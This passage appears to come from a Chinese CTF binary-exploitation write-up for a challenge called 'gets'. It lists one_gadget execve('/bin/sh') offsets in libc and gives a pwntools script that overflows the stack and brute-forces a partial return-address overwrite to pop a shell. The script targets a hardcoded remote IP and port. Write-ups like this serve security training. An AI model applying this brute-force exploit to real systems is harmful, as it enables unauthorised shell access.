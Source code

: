 确定好了 libc 的版本后，我们可以选一个 one_gadget，这里我选择第一个，较低地址的。

```shell
➜  gets one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```

使用如下 exp 继续爆破，

```python
from pwn import *
context.terminal = ['tmux', 'split', '-h']
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
elfpath = './gets'
context.binary = elfpath

elf = ELF(elfpath)
bits = elf.bits


def exp(ip, port):
    for i in range(0x1000):
        if args['REMOTE']:
            p = remote(ip, port)
        else:
            p = process(elfpath, timeout=2)
        # gdb.attach(p)
        try:
            payload = 0x18 * 'a' + p64(0x40059B)
            for _ in range(2):
                payload += 'a' * 8 * 5 + p64(0x40059B)
            payload += 'a' * 8 * 5 + '\x16\02'
            p.sendline(payload)

            p.sendline('ls')
            data = p.recv()
            print data
            p.interactive()
            p.close()
        except Exception:
            p.close()
            continue


if __name__ == "__main__":
    exp('106.75.4.189', 35273)
```
